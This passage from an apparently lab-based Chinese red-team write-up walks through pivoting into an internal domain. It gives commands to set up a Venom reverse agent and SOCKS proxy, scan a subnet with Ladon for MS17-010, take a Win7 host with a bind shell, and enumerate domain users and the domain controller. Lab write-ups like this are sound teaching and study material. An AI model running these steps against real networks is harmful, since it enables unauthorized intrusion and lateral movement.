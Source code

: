 ![](http://qn.laohuan.xin/Snipaste_2021-11-13_16-04-40-%E6%B7%BB%E5%8A%A0%E8%B7%AF%E7%94%B1.png)

6.添加socks代理

前几天发现了一款代理工具，顺便试一试。

[Venom](http://github.com/Dliv3/Venom.git)

服务端开启监听

`./admin_linux_x64 -lport 9999 `

上传agent，连接服务端

`agent.exe -rhost 192.168.1.9 -rport 9999`

查看节点

`show`

进入节点1

`goto 1`

开启socks代理，监听8888端口

`socks 8888`

![](http://qn.laohuan.xin/Snipaste_2021-11-13_16-35-32-venom.png)

### 0x2 横向Win7

1.查看路由表,发现一台10.10.20.7的机器

`arp -a`

![](http://qn.laohuan.xin/Snipaste_2021-11-13_16-02-47-arp.png)

2.上传ladon扫描内网，发现10.10.20.0段除了weblogic那台服务器，就只剩一台地址为10.10.20.7的win7,且存在ms17_010

* `ladon64.exe 10.10.20.0/24 onlinepc` 
* `ladon64.exe 10.10.20.0/24 ms17010` 
* `ladon64.exe 10.10.20.7 portscan`

![](http://qn.laohuan.xin/Snipaste_2021-11-13_19-35-35.png)

3.win7不出网，使用ms17_010正向shell拿下win7

<img src="http://qn.laohuan.xin/Snipaste_2021-11-20_13-36-56.png" style="zoom:67%;" />

4.发现存在域**redteam.red**

`systeminfo`

查看域用户 `net user /domain`

![](http://qn.laohuan.xin/Snipaste_2021-11-20_13-50-35.png)

5.查看域控，发现域控主机名**owa**，地址为10.10.10.8
